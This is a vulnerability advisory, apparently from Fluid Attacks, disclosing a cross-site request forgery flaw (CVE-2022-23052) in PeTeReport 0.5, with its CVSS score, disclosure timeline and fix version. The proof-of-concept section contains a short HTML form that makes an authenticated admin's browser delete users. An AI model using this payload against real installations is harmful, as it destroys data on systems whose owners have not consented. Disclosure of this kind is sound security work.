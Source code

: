```yaml
---
slug: advisories/jett/
title: PeTeReport 0.5 - Cross-site request forgery
authors: Oscar Uribe
writer: ouribe
codename: jett
product: PeTeReport 0.5
date: 2022-02-09 12:00 COT
cveid: CVE-2022-23052
description: PeTeReport 0.5 - Cross-site request forgery
keywords: Fluid Attacks, Security, Vulnerabilities, PeTeReport
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                         |                                                            |
|-------------------------|------------------------------------------------------------|
| **Name**                | PeTeReport 0.5 - Cross-site request forgery                |
| **Code name**           | [Jett](https://en.wikipedia.org/wiki/Joan_Jett)            |
| **Product**             | PeTeReport                                                 |
| **Affected versions**   | Version 0.5                                                |
| **Fixed versions**      | Version 0.7                                                |
| **State**               | Public                                                     |
| **Release date**        | 2022-02-23                                                 |

## Vulnerability

|                       |                                                                  |
|-----------------------|------------------------------------------------------------------|
| **Kind**              | Cross-site request forgery                                       |
| **Rule**              | [007. Cross-site request forgery](https://docs.fluidattacks.com/criteria/vulnerabilities/007)    |
| **Remote**            | Yes                                                              |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N/E:X/RL:X/RC:X       |
| **CVSSv3 Base Score** | 4.3                                                              |
| **Exploit available** | No                                                               |
| **CVE ID(s)**         | [CVE-2022-23052](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-23052)                                                     |

## Description

PeteReport **Version 0.5** contains a Cross Site Request Forgery (CSRF)
vulnerability allowing an attacker to trick users into
deleting users, products, reports
and findings on the application.

## Proof of Concept

Steps to reproduce

1. Create a malicious html file with the following content.

    ```html
    <html>
    <body>
    <script>history.pushState('', '', '/')</script>
        <!--Change ID -->
        <form action="https://127.0.0.1/configuration/user/delete/:id">
        <input type="submit" value="Submit request" />
        </form>
    </body>
    </html>
    ```

2. If an authenticated admin visits the malicious url,
   the user with the correspond id will be deleted.

System Information

* Version: PeteReport Version 0.5.
* Operating System: Docker.
* Web Server: nginx.

## Exploit

There is no exploit for the vulnerability but can be manually exploited.

## Mitigation

An updated version of PeteReport is available at the vendor page.

## Credits

The vulnerability was discovered by [Oscar
Uribe](https://co.linkedin.com/in/oscar-uribe-londo%C3%B1o-0b6534155) from the Offensive
Team of  `Fluid Attacks`.

## References

|                     |                                                                     |
|---------------------|---------------------------------------------------------------------|
| **Vendor page**     | <https://github.com/1modm/petereport>                               |
| **Issue**           | <https://github.com/1modm/petereport/issues/34>                     |

## Timeline

* 2022-02-07: Vulnerability discovered.

* 2022-02-07: Vendor contacted.

* 2022-02-09: Vendor replied acknowledging the report.

* 2022-02-09: Vulnerability patched.

* 2022-02-23: Public Disclosure.